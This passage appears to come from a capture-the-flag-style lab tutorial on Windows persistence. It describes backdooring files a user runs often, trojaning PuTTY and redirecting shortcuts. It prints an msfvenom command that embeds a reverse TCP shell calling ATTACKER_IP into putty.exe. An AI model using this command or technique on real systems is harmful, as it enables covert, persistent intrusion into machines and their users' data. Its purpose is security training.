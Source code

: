 For this task, we assume you have already compromised the  system and obtained the password for thmuser3. For your convenience, the user can connect via RDP with the following credentials:

#  Backdooring Files                            

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing  some modifications to such files, we can plant backdoors that will get  executed whenever the user accesses them. Since we don't want to create  any alerts that could blow our cover, the files we alter must keep  working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut  to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload  silently by adding an extra thread in your binary. To create a  backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter  payload without the user noticing it. While this method is good enough  to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with  the shortcut file itself. Instead of pointing directly to the expected  executable, we can change it to point to a script that will run a  backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:
